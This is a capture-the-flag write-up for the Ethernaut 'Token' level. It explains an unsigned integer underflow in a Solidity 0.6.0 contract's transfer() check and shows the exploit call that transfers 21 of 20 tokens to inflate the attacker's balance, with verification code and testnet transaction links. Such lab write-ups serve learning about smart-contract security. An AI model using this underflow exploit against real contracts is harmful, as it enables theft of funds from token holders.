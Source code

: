 # Token

## Objectives

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

## Solution

This contract is using the solidity compiler version 0.6.0, therefore mathematical operations can lead to overflows. In this case, the vulnerability occurs when attempting to call the `transfer()` function:

```cs
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

The line `require(balances[msg.sender] - _value >= 0);` checks if the user balance is larger than or equal to zero, but since balances are unsigned integers, when the number we subtract (`_value`) is larger than the wallet's balance (`balances[msg.sender]`) of the token, an overflow occurs and the wallet's balance becomes the largest unsigned integer minus the difference between these two values. 

After passing the require statement, there is another mistake where this overflowed value is assigned to the balance of `msg.sender`:

```cs
balances[msg.sender] -= _value;
```

All we have to do to exploit the contract is call the transfer function as follows:

```cs
transfer('any address except the sending address', 21)
```

From the address whose funds we want to cause the overflow on.

## How I did it

1. I called the `transfer()` function and sent 21 tokens (1 more than the original 20 to cause an overflow) to the contract address of the Token contract.

```cs
token.transfer(EthernautContractAddresses['token'], 21, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x36f92045c9515a41a0abe02f0f98dbcb1b11b1b30cf09f55f029393426fe8662

2. Check that we have actually caused an overflow by checking if our balance is above 20.

```python
amount_assertion = token.balanceOf(acc.address) > 20
print(f'Does address {acc.address} have more than 20 tokens?: {amount_assertion}')
```


## Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x50dacc40fa0b3e919a98709ae45ac9efcb9c6d4bb2ec5248176b0aefa158c58a
